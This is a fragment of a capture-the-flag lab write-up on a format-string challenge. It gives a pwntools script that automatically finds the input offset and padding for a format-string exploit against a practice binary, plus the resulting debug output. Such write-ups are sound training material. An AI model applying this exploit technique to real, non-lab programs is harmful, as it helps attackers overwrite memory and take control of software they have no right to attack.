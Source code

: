 Before start some preps.

#### find_offset_and_padlen.py

```python
from pwn import *

# Load binary and configure context
elf = context.binary = ELF('./babyfmt_level4.0', checksec=False)
context.log_level = 'debug'

gdbscript = '''
continue
'''

def start():
    if args.GDB:
        return gdb.debug([elf.path], gdbscript=gdbscript)
    return process([elf.path])

#### send helper ####
def send_fmt(payload):
    io = start()
    try:
        io.sendafter(b'Send your data!\n', payload)
        data = io.recvall(timeout=0.01)
        return data
    finally:
        io.close()

f = FmtStr(send_fmt)

success(f'User input starts at  : {f.offset}')
success(f'Needed pads           :{f.padlen}')
success(f'Numbwritten           :{f.numbwritten}')
```

**The result:**

```perl
[DEBUG] Received 0xf4 bytes:
    b'Received 33 bytes!\n'
    b'\n'
    b'I will now call printf on your data!\n'
    b'\n'
    b'aaaabaaacaaadaaaeaaaSTART0x6361616162616161END\n'
    b"And now, let's check the win value!\n"
    b'Checking win value...\n'
    b'... desired win value: 0xa5\n'
    b'... written win value: 0\n'
    b'... INCORRECT!\n'
    b'### Goodbye!\n'
[*] Found format string offset: 27
[+] User input starts at  : 27
[+] Needed pads           :1
[+] Numbwritten           :0
```
##### get *win_value* and *win_address* with regex practice.
